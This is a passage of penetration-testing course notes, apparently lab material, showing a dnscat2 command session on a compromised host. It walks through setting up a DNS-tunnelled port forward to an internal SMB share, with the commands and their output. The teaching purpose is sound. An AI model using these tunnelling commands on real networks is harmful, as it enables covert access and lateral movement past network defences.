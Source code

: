 ```
That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.

command (pgdatabase01) 1> ?

Here is a list of commands (use -h on any of them for additional help):
* clear
* delay
* download
* echo
* exec
* help
* listen
* ping
* quit
* set
* shell
* shutdown
* suspend
* tunnels
* unset
* upload
* window
* windows
command (pgdatabase01) 1>
```

This returns a prompt with a "command" prefix
+ This is the dnscat2 _command session_, and it supports quite a few options
+ We can learn more about each command by running it with the **--help** flag

Since we're trying to tunnel in this Module, let's investigate the port forwarding options
+ We can use **listen** to set up a listening port on our dnscat2 server, and push TCP traffic through our DNS tunnel, where it will be decapsulated and pushed to a socket we specify
+ Let's background our _console session_ by pressing Ctrl+Z. Back in the _command session_, let's run **listen --help**:
```
command (pgdatabase01) 1> listen --help
Error: The user requested help
Listens on a local port and sends the connection out the other side (like ssh
	-L). Usage: listen [<lhost>:]<lport> <rhost>:<rport>
  --help, -h:   Show this message
```
+ According to the help message output, **listen** operates much like **ssh -L**. And we should be very familiar with that by now

Let's try to connect to the SMB port on `HRSHARES`, this time through our DNS tunnel
+ We'll set up a local port forward, listening on 4455 on the loopback interface of `FELINEAUTHORITY`, and forwarding to 445 on `HRSHARES`:
```
command (pgdatabase01) 1> listen 127.0.0.1:4455 172.16.2.11:445
Listening on 127.0.0.1:4455, sending connections to 172.16.2.11:445
command (pgdatabase01) 1> 
```
